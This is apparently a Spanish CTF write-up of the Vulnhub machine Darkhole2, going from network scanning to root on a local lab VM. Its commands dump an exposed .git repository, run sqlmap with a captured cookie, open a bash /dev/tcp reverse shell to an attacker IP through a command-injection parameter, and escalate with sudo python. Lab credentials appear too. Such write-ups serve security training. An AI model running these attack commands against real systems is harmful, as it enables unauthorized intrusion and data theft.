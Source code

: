 # Darkhole2-Vulnhub-Writeup
Writeup de la maquina Darkhole2 de Vulnhub

El sistema se pondra a prueba en VirtualBox

![descripcion](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/descripcion.jpg)

## Escaneo de Red
En primer lugar, tenemos que obtener la dirección IP del objetivo

![uso del netdiscover](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/netdiscover.jpg)

~~~
netdiscover
~~~

Iniciando Nmap para avanzar en este proceso. Realizamos un escaneo agresivo (-A) para la enumeración de puertos abiertos y descubrimos la siguiente información de puertos:

~~~
nmap -A 192.168.40.133
~~~

![uso del nmap](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/nmap.jpg)

De acuerdo con la salida de Nmap, tenemos:
Un servidor SSH que se ejecuta en el puerto 22.
Un servicio HTTP ejecutándose (servidor Apache) en el puerto 80, así como una página http-git.

## Enumerar el servidor web
Debido a que el servidor Apache está escuchando en el puerto 80, podemos verificarlo inmediatamente en el navegador.

![visualizacion de laweb](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/web.jpg)

Decidimos echar un vistazo a la página de inicio de sesión.

![vista login](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/login.jpg)

Decidimos echar un vistazo a la página http-git que descubrimos previamente durante el escaneo agresivo de Nmap.
![vista repositorio git](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git.jpg)

Usamos git-dumper
Es una herramienta para adquirir un repositorio git de un sitio web para obtener una mejor comprensión del conjunto de datos.
Simplemente usamos la función de clonación de git.
Creamos un directorio para nuestro respaldo .git

![vista gitclone](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitclone.jpg)
~~~
cd darkhole2
git clone https://github.com/arthaud/git-dumper.git
ls
cd git-dumper 
mkdir backup
~~~

Después de descargar la herramienta, intentamos ejecutarla con python .

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitdumpe%20python.jpg)
~~~
python3 git_dumper.py http://192.168.40.133/.git/ backup
~~~

Después de eso, accedimos al directorio de respaldo y el archivo de registro tenía tres entradas. Usando git, abrimos una de las entradas para continuar.
Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git%20log.jpg)
~~~
cd backup
ls
git log
git diff  a4d900a8d85e8938d3601f3cef113ee293028e10
~~~

Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

~~~
Email: lush@admin.com
Password: 321
~~~

## Explotación
Nos logeamos en esa página, parece ser adecuada para tácticas relacionadas con la inyección de SQL.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/375d0afe-a663-4ae2-8ed7-7b8d8306ebf3)

### BURP SUITE
Entonces, usamos burpsuite para recopilar las cookies de esta página. Será ventajoso para nuestra estrategia de inyección SQL.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/67b83dec-2f36-473b-a4fa-3e095e98f890)

### Usando SQLMAP
Insertamos la cookie capturada anteriormente en sqlmap 

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/a1530d38-1748-4d26-be2e-8bea8c6bd538)
![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/6f481be5-6ea5-4d6d-a0b4-cc0253ba88c4)
~~~
sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="PHPSESSID=674p5g2tk29ieclq6iqdtc2mu4" --dbs –batch
~~~

Obtuvimos algunas bases de datos en cuestión de minutos. Entonces, iniciamos otro comando (usando el parámetro -D) para volcar la base de datos llamada darkhole_2

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/3cd9ae27-b481-4022-a0bf-34499d6aa230)

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/3480ebbb-a385-4252-b9d4-659b051f6225)

~~~
sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="PHPSESSID=674p5g2tk29ieclq6iqdtc2mu4" -D darkhole_2 --dump-all --batch
~~~

En cuestión de momentos, descubrimos las credenciales ssh para el usuario Jehad en esta base de datos de volcado. 

~~~
User: jehad
Pass: fool
~~~

Ahora, usando estas credenciales ssh, iniciamos sesión con el usuario Jehad y abrimos su identificación para autenticarlo.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/cf4abf46-fdfd-475e-95b5-290e7efff130)

~~~
ssh jehad@192.168.40.133
id
~~~

## Escala de privilegios

Vemos un cron  que se ejecuta con el usuario losy.

Aquí podemos ver que un servidor web se está ejecutando en el puerto 9999. Cuando vemos el contenido del código fuente, vemos que esto permite la ejecución remota de comandos.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/dc94e9dc-3ae6-4bb0-8952-f6756a3bdcb7)

    cat /etc/crontab

Por lo tanto, podemos tunelizar el puerto 9999 usando SSH de la siguiente manera.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/114f1fdc-9351-4819-82fa-3deaad1243f6)

Ha llegado el momento de lanzar este asalto. Intentamos iniciar sesión como el usuario jehad, utilizando los detalles del reenvío de puertos locales proporcionados en los resultados anteriores que obtuvimos.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/51057c2c-55c0-431d-9b7f-74c05d631591)

    ssh -L 9999:127.0.0.1:9999 jehad@192.168.40.133

Luego, podría visitar 127.0.0.1:9999 para el RCE.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/d2d24d1f-ac23-4737-b236-7b3fd5a142d3)

    http://127.0.0.1:9999/?cmd=id

Ahora, podemos obtener un reverse shell con el usuario losy. Para eso, estoy escuchando en el puerto 9001.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/shellr.jpg)

    nc -nlvp 9001

El siguiente payload me daría un reverse shel.

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

En formato url   &->%26  (URL encode)

    bash -c 'bash -i >%26 /dev/tcp/192.168.40.128/9001 0>%26

Mandamos el payload cambiando id por el cofificado en URL previamente realizado en el paso anterior.

~~~
http://127.0.0.1:9999/?cmd=id
http://127.0.0.1:9999/?cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.40.128/9001 0>%261'
~~~

Obtenemos respuesta del Puerto de escucha:

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/61540892-f8c6-4f7b-9935-4cbe60706754)

~~~
cd
ls -la
cat user.txt
cat.bash history
~~~

Descubrimos las credenciales de inicio de sesión de losy en este archivo de historial de bash.

    losy: gang

Después de eso, probamos los permisos sudo de este usuario. Descubrimos que podíamos llegar a la raíz usando una sola línea de python

~~~
sudo –S –l
gang
~~~

Ahora ejecuta este one-liner de python con sudo y la credencial losy.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/d4a26c9c-18d0-470f-a940-eba826879334)

~~~
sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
cd
cat root.txt
~~~

Obtuvimos usuario root con acceso a la raiz
